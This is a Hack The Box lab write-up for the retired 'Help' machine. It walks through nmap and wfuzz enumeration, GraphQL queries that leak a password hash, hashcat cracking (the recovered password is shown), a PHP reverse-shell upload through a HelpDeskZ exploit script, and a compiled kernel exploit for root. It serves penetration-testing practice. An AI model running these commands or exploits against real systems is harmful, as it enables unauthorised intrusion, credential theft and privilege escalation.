





# Help

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">GraphQL</span>
<span class="wu-tag">HelpDeskZ</span>
<span class="wu-tag">Kernel exploit</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Help exposed two web services that only made sense together. GraphQL supplied the credentials for HelpDeskZ; the ticket upload then gave me a shell even though the application reported that the file type was rejected.

## Attack path

1. Query GraphQL for the helpdesk account and crack its password hash.
2. Upload a PHP shell and locate it with the HelpDeskZ upload proof of concept.
3. Compile the recorded kernel exploit on the target and verify the resulting root shell.

[HTB machine](https://app.hackthebox.com/machines/170) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/170) (checked November 17, 2026).

## Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.121 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -sV 10.10.10.121
```

<figure class="wu-evidence" markdown>

<figcaption>Nmap identifies SSH and the two HTTP services.</figcaption>
</figure>

We see two HTTP services on port `80` and `3000`.

Investigate port `80` to find the URL was attempted to be redirected to `help.htb`. Update our `/etc/hosts` file as follows:
```text
echo "10.10.10.121 help.htb" | sudo tee -a /etc/hosts
```

Visit the `help.htb` site now and we should be able to see the default Apache 2 page. 

Run `wfuzz` or `gobuster` to find a hidden path:
```text
wfuzz --hc 404,403 -H "User-Agent: PENTEST" -c -z file,"/usr/share/wordlists/wfuzz/general/big.txt" http://help.htb/FUZZ
```

The above should reveal `/support`. Navigate here to find we are redirected to HelpDeskZ. 

I could not establish the HelpDeskZ version from the page source. Searching the application name led to an upload PoC, so I treated its applicability as a hypothesis until the shell came back.
[Reference](https://github.com/JubJubMcGrub/HelpDeskZ-1.0.2-File-Uplaod?tab=readme-ov-file)

Looking through the exploit, this requires file upload. Unfortunately, we do not have any way to upload a file yet, so let's continue digging and put this to the side.

Back to our original NMAP scan results, notice we found another port, 3000, opened as well. Let's navigate here.

<figure class="wu-evidence" markdown>

<figcaption>The service on port 3000 hints at a credentials query.</figcaption>
</figure>

Observe Wapalyzer and notice we have Express installed on this port. Google "Express js query language" to find more info on this service.

Notice that the following page returns an error:
```text
http://help.htb:3000/graphql?query=abc
```

Let's attempt to grab information of a user:
```bash
curl -s -G http://10.10.10.121:3000/graphql --data-urlencode "query={user}" | jq
```

Notice this brings back an error saying we must have a selection of subfields. "Did you mean user?"

Let's try this:
```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq
```

<figure class="wu-evidence" markdown>

<figcaption>A GraphQL selection returns the helpdesk username.</figcaption>
</figure>

Nice! Let's update our query and see if we can get a password as well:
```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,
password} }' | jq
```

<figure class="wu-evidence" markdown>

<figcaption>Adding the password selection exposes the stored hash.</figcaption>
</figure>

Great! It looks like the password is an MD5 hash. Let's use hashcat to crack it (copy the hash into a file, in this case `passwd`):
```text
 hashcat -m 0 passwd /usr/share/wordlists/rockyou.txt  
```

This should return the following: `godhelpmeplz`

Now, returning to the HelpDeskZ site, login with the above credentials.

We can now attempt to exploit the file upload vulnerability as we now have a way to upload a file! 

**Note**: A PHP file can be created or there are already a few on the kali box, including at `Desktop/Cracks/php_Shell.php`.

Obtain a shell by following these steps:
1. Upload the php_Shell.php file to the site. Notice we receive an error saying this file type isn't accepted. That's OK! Quickly run to step 2
2. Start an NC listener on the port from the PHP shell 
3. Run the following:
```bash
python2 helpdeskz.py http://help.htb/support/uploads/tickets/ php_Shell.php
```

We should now have a reverse shell!

## Privilege Escalation
Now, using `sudo -l` requires the password for the current user, `help`, which we do not have. Instead, do some more enumeration on the box using tools such as [Linux Exploit Suggestor](https://github.com/The-Z-Labs/linux-exploit-suggester) (upload to host via python web server).

We find the host has a vulnerable kernel version installed! 
[Reference](https://www.exploit-db.com/exploits/44298)

Download the exploit onto your local machine (`exp.c`) and upload it to our target WITHOUT compiling it (compiling it before did not work).

```text
nano exp.c
```

Upload it onto the target using a python web server, then compile, and run to obtain root!
```bash
gcc exp.c -o exp
chmod +x exp
./exp
```

<figure class="wu-evidence" markdown>

<figcaption>Compiling and running the local kernel exploit returns a root identity.</figcaption>
</figure>

## Lessons learned

An upload error did not prove that the file had been discarded. The callback established execution; compiling the kernel PoC on the target also avoided the failure encountered with an attacker-built binary.
